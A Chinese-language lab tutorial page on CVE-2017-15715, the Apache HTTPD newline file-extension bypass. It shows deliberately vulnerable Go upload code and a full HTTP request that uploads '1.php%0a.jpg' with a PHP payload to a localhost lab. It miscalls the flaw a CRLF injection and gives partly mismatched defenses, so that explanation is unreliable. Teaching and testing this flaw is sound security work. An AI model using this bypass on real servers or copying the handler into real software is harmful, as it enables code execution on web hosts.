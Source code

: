 ```yaml
---
sidebar_position: 4
---
```


# CVE-2017-15715：Apache HTTPD 换行解析漏洞

Apache HTTPD 换行解析漏洞是一种 Web 服务器（Apache HTTPD）的安全漏洞，也被称为 CRLF 注入漏洞。该漏洞允许攻击者通过特定的换行符注入恶意内容，进而实施各种攻击。

### 示例代码：

```Go
fn := header.Filename
var serverExt string
var fileSystemExt string
writeFile, after, _ := strings.Cut(fn, "\x0a")
fileSystemExt = filepath.Ext(writeFile)
if after != "" {
 serverExt = after
} else {
serverExt = fileSystemExt
}
if !utils.MatchAnyOfSubString(strings.ToLower(serverExt), "jpg", "png", "jpeg", "ico") {
    unsafeTemplateRender(writer, request, uploadFailed, map[string]any{
        "reason": fmt.Sprintf(
            "u upload file: %v, fileSystemExt: %v, serverExt: %v",
            strconv.Quote(fn), strconv.Quote(fileSystemExt), strconv.Quote(serverExt),
        ),
    })
    return
tfp, err := consts.TempFile("temp-*-" + writeFile)
```

### 攻击示例：

按照[RFC2231](http://tools.ietf.org/html/rfc2231)的定义，多语言编码的 Content-Disposition 应该这么定义：

```
Content-Disposition: form-data; name="filename"; filename*=UTF-8''1.php%0a.jpg
```

即：

- filename 后面的等号之前要加 \*
- filename 的值用单引号分成三段，分别是字符集(utf8)、语言(空)和 urlencode 过的文件名。
- 最好加上双引号，否则文件名中空格后面的部分在 Firefox 中显示不出来

```HTML
POST /upload/case/cve-2017-15715 HTTP/1.1
Host: 127.0.0.1:8787
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 233
Content-Type: multipart/form-data; boundary=---------------------------299942644414050572304234542504
DNT: 1
Origin: http://127.0.0.1:8787
Referer: http://127.0.0.1:8787/upload/main?case=cve-2017-15715
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0

-----------------------------299942644414050572304234542504
Content-Disposition: form-data; name="filename"; filename*=UTF-8''1.php%0a.jpg
Content-Type: text/php

<?=phpinfo()?>
-----------------------------299942644414050572304234542504--
```

### 防御措施：

- 输入验证和过滤：对于所有从用户输入中获取的数据，包括 HTTP 请求头部字段，都应该进行严格的输入验证和过滤。特别是需要对换行符进行过滤，确保不会在用户输入中包含额外的换行符。
- 规范化输出：在响应中返回的内容应该经过正确的编码和规范化，确保不会将用户输入作为响应头部字段的一部分输出。
- 升级服务器版本：及时升级 Apache HTTPD 服务器到最新版本，以获得最新的安全修复和漏洞修复。
- 使用 Web 应用防火墙（WAF）：使用 WAF 可以帮助检测和阻止恶意请求，提高 Web 应用的安全性。

### 靶场演示： 视频

<video
  src="/img/yaklab/fileupload/03unsafe-cve201715715.mp4"
  loop={true}
  playsInline={true}
  controls={true}
  autoPlay={true}
  style={{ width: 890 }}
/>
